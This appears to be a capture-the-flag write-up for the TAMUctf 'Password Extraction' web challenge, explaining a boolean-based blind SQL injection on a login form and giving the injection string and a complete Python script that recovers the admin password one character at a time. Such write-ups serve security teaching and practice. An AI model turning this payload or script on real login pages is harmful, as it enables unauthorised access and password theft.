 # PASSWORD_EXTRACTION
Web

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?
>
>http://passwordextraction.tamuctf.com
>
>You do not need to use brute force for this challenge.

Another another guess challenge!!

We guess that this is vulnerable to SQLi, and indeed it is. The flag is the admin password. Pretty standard stuff.

We can do a char-by-char bruteforce of the password.

We can guess the table and column names of the database (or use some SQLi tricks, but that's left as an exercise to the reader).

We can also guess that the admin's username is `admin`.

Our injection will look something like this:
`' or (SELECT MID(password,{},1) FROM accounts LIMIT 0,1)={};-- `

Based on whether or not we get logged in, we can know the letter x at position i.

We implement this in Python, run, and wait for a while.


```python
import requests
import string

url = "http://passwordextraction.tamuctf.com/login.php"

data = {
    "username":"admin",
    "password":"' or (SELECT MID(password,{i},1) FROM accounts LIMIT 0,1)='{char}';-- "
}

# table accounts
# column password

alpha = string.ascii_letters + string.digits + "{}./-"

i = 1
flag = ""
prev = ""

while True:
    for char in alpha:
        payload = dict(data)
        payload["password"] = payload["password"].format(i=i, char=char)
        p = requests.post(url, data=payload)

        if not 'invalid' in p.text.lower():
            flag += char
            i += 1
            break

    print(flag)

    if flag == prev:
        break

    prev = flag
    
print(flag)
```

